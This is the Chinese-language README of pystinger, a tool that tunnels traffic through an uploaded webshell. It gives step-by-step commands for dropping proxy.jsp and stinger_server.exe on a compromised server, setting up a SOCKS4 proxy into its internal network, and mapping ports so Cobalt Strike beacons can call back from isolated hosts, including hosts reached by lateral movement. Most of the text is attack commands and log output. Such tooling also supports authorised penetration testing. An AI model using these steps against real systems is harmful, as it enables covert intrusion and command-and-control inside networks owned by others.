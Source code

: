# 毒刺(pystinger)

简体中文 | [English](./readme.md) 

毒刺(pystinger)通过webshell实现**内网SOCK4代理**,**端口映射**.

可直接用于metasploit-framework,viper,cobalt strike上线.

主体使用python开发,当前支持php,jsp(x),aspx三种代理脚本.


# 使用方法

> 假设不出网服务器域名为 [http://example.com:8080](http://192.168.3.11:8080) ,服务器内网IP地址为192.168.3.11

## SOCK4代理


* proxy.jsp上传到目标服务器,确保 [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) 可以访问,页面返回 ```UTF-8```
* 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行```start D:/XXX/stinger_server.exe```启动服务端
> 不要直接运行D:/XXX/stinger_server.exe,会导致tcp断连
* vps执行```./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000```
* 如下输出表示成功
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* 此时已经在vps```127.0.0.1:60000```启动了一个```example.com```所在内网的**socks4a**代理
* 此时已经将目标服务器的```127.0.0.1:60020```映射到vps的```127.0.0.1:60020```

## cobalt strike单主机上线

* proxy.jsp上传到目标服务器,确保 [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) 可以访问,页面返回 ```UTF-8```
* 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行```start D:/XXX/stinger_server.exe```启动服务端
> 不要直接运行D:/XXX/stinger_server.exe,会导致tcp断连
* stinger_client命令行执行```./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000```
* 如下输出表示成功
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* cobalt strike添加监听,端口选择输出信息RAT Config中的Handler/LISTEN中的端口(通常为60020),beacons为127.0.0.1
* 生成payload,上传到主机运行后即可上线

## cobalt strike多主机上线

* proxy.jsp上传到目标服务器,确保 [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) 可以访问,页面返回 ```UTF-8```
* 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行```start D:/XXX/stinger_server.exe 192.168.3.11```启动服务端
> 192.168.3.11可以改成0.0.0.0
* stinger_client命令行执行```./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000```
* 如下输出表示成功
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 192.168.3.11:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 192.168.3.11:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* cobalt strike添加监听,端口选择RAT Config中的Handler/LISTEN中的端口(通常为60020),beacons为192.168.3.11(example.com的内网IP地址)
* 生成payload,上传到主机运行后即可上线
* 横向移动到其他主机时可以将payload指向192.168.3.11:60020即可实现出网上线

## 定制Header及proxy
* 如果webshell需要配置Cookie或者Authorization,可通过--header参数配置请求头

```--header "Authorization: XXXXXX,Cookie: XXXXX"```

* 如果webshell需要通过代理访问,可通过--proxy设置代理

```--proxy "socks5:127.0.0.1:1081"```


# 相关工具
[https://github.com/nccgroup/ABPTTS](https://github.com/nccgroup/ABPTTS)

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

[https://github.com/SECFORCE/Tunna](https://github.com/SECFORCE/Tunna)

# 已测试
## stinger_server\stinger_client
* windows 
* linux
## proxy.jsp(x)/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0

# 更新日志
**2.0**
更新时间: 2019-09-29
* 将socks4代理服务移动到客户端
* 不再支持端口转发功能

**2.1**
更新时间: 2020-01-07
* 支持CS上线功能(即端口映射功能)


The development is supported by the software from jetbrains.</br>
https://www.jetbrains.com/?from=pystinger

<a href="https://www.jetbrains.com/?from=pystinger" target="_blank">
  <img src="jetbrains.svg">
</a>
